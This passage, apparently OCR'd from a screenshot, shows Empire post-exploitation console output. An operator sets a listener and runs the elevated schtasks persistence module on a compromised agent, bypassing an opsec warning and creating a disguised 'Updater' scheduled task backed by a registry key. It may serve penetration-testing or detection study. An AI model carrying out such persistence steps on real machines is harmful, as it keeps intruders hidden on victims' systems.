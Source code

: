 ```
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/elevated/schtasks) > set Listener https
(Empire: powershell/persistence/elevated/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked TKV35P8X to run TASK_CMD_WAIT
[*] Agent TKV35P8X tasked with task ID 2
[*] Tasked agent TKV35P8X to run module powershell/persistence/elevated/schtasks
(Empire: powershell/persistence/elevated/schtasks) > SUCCESS: The scheduled task "Updater" has successfully been created.
Schtasks persistence established using listener https stored in HKLM:\Software\Microsoft\Network\debug with Updater daily trigger at 09:00.

(Empire: powershell/persistence/elevated/schtasks) > 
(Empire: powershell/persistence/elevated/schtasks) >
```